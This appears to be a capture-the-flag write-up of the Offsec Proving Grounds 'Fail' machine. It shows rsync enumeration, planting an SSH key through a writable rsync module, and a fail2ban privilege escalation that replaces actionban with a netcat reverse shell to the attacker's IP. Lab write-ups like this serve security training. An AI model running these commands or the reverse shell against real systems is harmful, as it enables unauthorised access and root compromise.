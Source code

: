 ```yaml
---
title: "Proving grounds Practice: Fail"
layout: post
date: 2023-12-30 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Rsync
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 873/tcp open  rsync (protocol version 31)

List `rsync` modules using nmap.

```sh
naveenj@hackerspace:|01:49|~/proving_grounds/Fail$ nmap -sV --script "rsync-list-modules" -p 873 192.168.195.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 01:50 EDT
Nmap scan report for 192.168.195.126
Host is up (0.28s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox            	fox home
```

**Rsync Enumeration**

```sh
naveenj@hackerspace:|01:52|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/
fox            	fox home

naveenj@hackerspace:|01:53|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile
```

Upload .ssh directory with our SSH public key as authorized_keys

```sh
naveenj@hackerspace:|02:12|~/proving_grounds/Fail$ rsync -av .ssh/ rsync://fox@192.168.195.126/fox/.ssh
sending incremental file list
created directory /.ssh
./
authorized_keys

sent 27,331 bytes  received 161 bytes  7,854.86 bytes/sec
total size is 26,861  speedup is 0.98
```

**.ssh Folder**

```sh
naveenj@hackerspace:|02:14|~/proving_grounds/Fail$ ll .ssh
total 48K
4.0K drwxr-xr-x 3 naveenj naveenj 4.0K Oct 20 02:12 ../
4.0K -rw-r--r-- 1 naveenj naveenj  573 Oct 20 01:56 authortized_keys
```

SSH to user fox to obtain initial foothold.

## Privilege Escalation

Check user and group id

```sh
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

## Fail2ban Privilege Escalation

[https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)

The user can write permission to action.d folder and upon recon the fail2ban is enabled for the SSH service.

```conf
# Provide customizations in a jail.local file or a jail.d/customisation.local.
# For example to change the default bantime for all jails and to enable the
# ssh-iptables jail the following (uncommented) would appear in the .local file.
# See man 5 jail.conf for details.
#
# [DEFAULT]
# bantime = 1h
#
# [sshd]
# enabled = true
```

The default configuration says the host will be banned for a minute after 2 invalid attempts.

```conf
# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2
```

Upon changing the config in the iptables-multiport.conf to a reverse shell.

```conf
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.247 80 -e /bin/bash
```

Run the netcat listener and try invalid ssh login attemps to trigger shell.

![img](/assets/images/CTF/Proving_Grounds/Fail/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).